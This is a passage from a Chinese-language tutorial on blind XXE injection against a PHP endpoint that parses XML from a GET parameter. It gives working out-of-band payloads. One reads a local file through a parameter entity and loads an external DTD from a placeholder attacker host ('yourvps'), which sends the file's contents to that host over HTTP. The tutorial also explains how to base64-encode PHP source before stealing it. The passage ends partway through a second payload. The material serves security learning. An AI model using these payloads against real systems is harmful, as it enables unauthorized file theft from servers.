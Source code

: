 &lt;?php

$xml=simplexml\_load\_string\($\_GET\['xml'\]\);

?&gt;

\`\`\`

少了print\_r，即没有回显消息。这个时候我们可以利用参数实体，通过发起http请求来攻击。

### 读取本地文件

#### payload1

\`\`\`xml

&lt;?xml version="1.0" encoding="utf-8"?&gt;

&lt;!DOCTYPE data \[

&lt;!ENTITY % file SYSTEM "file:///c://TEST.txt"&gt;

&lt;!ENTITY % dtd SYSTEM "[http://yourvps/xxe.xml"&gt](http://yourvps/xxe.xml"&gt);

%dtd; %all;

\]&gt;

&lt;value&gt;&send;&lt;/value&gt;

\`\`\`

在我的vps的xxe.xml的内容如下：

\`\`\`xml

&lt;!ENTITY % all "&lt;!ENTITY send SYSTEM '[http://yourvps/%file;'&gt;"&gt](http://yourvps/%file;'>"&gt);

\`\`\`

而测试文件TEST.txt内容为：

\`\`\`

chybeta

\`\`\`

整个的调用过程如下：解析时\`%dtd\`引入xxe.xml，之后\`%all\`引入\`send\`的定义，最后引用了实体send，把\`%file\`文件内容通过一个http请求发了出去。注意需要把payload经过url编码。查看vps上的access.log：

!\[\]\([https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20170704/4.jpg?raw=true\](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20170704/4.jpg?raw=true\)\)

若要读取php等文件，同样需要先经过base64加密下。

\`\`\`xml

&lt;?xml version="1.0" encoding="utf-8"?&gt;

&lt;!DOCTYPE data \[
